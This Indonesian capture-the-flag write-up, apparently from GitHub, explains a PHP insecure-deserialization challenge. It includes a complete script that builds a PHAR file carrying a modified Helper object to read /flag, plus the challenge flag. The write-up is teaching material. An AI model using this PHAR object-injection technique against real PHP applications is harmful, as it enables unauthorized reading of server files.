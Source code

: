 Di sini, aplikasi akan membaca file dari PHAR yang kita upload, melakukan deserialisasi, dan jika hasilnya adalah object dari class Helper, maka method `process()` akan dijalankan.

Class Helper sendiri memiliki kode seperti ini:
```php
class Helper {
    public string $file = '/tmp/sandbox';
    
    public function process(): void {
        echo file_get_contents($this->file);
    }
}
```

Kita bisa memanfaatkan ini untuk membaca file `/flag` dengan cara memodifikasi property `$file`.

Berikut adalah file php untuk membuat exploit PHAR
```php
<?php
class Helper {
    public string $file = '/flag';
}

// Buat folder untuk file Phar yang kita buat
$phar_dir = '.';
if (!file_exists($phar_dir)) {
    mkdir($phar_dir);
}

// Serialisasikan objek Helper yang telah dimodifikasi
$serialized_helper = serialize(new Helper());

// Buat magic file
file_put_contents($phar_dir . '/magic_happens_here', $serialized_helper);

// Buat file Phar
$phar_file = $phar_dir . '/exploit.phar';
$phar = new Phar($phar_file);
$phar->startBuffering();
$phar->addFromString('magic_happens_here', $serialized_helper);
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();

echo "Exploit PHAR created at: $phar_file\n";
?>
```

Jalankan php create_exploit.php
![image](https://github.com/user-attachments/assets/c9bb75da-5b3e-4f86-af43-28c3acd015b0)

Lalu ketika kita melakukan upload `exploit.phar` pada web challenge ini yaitu http://117.53.47.247:40011/ maka akan mendapatkan flag yang kita cari
![image](https://github.com/user-attachments/assets/03ffcfb4-b611-4e52-9129-df9b3e5986d2)

### Flag
```text
ADIKARACTF{this_challenge_was_made_one_hour_ago_be2e51}
```



